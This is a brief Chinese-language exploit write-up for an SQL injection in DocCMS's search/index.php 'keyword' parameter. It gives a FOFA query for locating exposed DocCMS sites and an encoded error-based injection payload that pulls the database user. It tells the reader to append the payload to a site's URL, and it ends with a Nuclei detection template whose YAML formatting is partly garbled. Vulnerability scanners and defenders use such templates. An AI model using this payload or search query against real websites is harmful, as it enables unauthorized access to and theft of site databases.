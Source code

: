 1.fofa语句：app="Doccms"  
  
2.执行poc

search/index.phpkeyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33  
在网站的网址后拼接payload语句

3.查看页面回显  
![](https://cdn.nlark.com/yuque/0/2024/png/48235409/1734750981109-b7d22a17-8da4-4813-aea8-240040ba86da.png)

4.nuclei poc

id: doccms-keyword-sqli

info:  
  name: DocCMS keyword SQL注入漏洞  
  author: fgz  
  severity: critical  
  description: DocCms[音译：稻壳Cms] ，定位于为企业、站长、开发者、网络公司、VI策划设计公司、SEO推广营销公司、网站初学者等用户 量身打造的一款全新企业建站、内容管理系统，服务于企业品牌信息化建设，也适应用个人、门户网站建设！Doccms存在SQL注入漏洞，攻击者可利用漏洞获取数据库敏感信息。  
  reference:  
    - none  
  metadata:  
    fofa-query: app="Doccms"  
    veified: true  
  tags: sqli,DocCMS

http:

+ method: GET  
path:

matchers-condition: and  
matchers:

    - "{{BaseURL}}/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33"
    - type: status  
status:
        * 200
    - type: word  
part: body  
words:
        * '数据库错误:'
        * 'XPATH syntax error:'  
condition: and

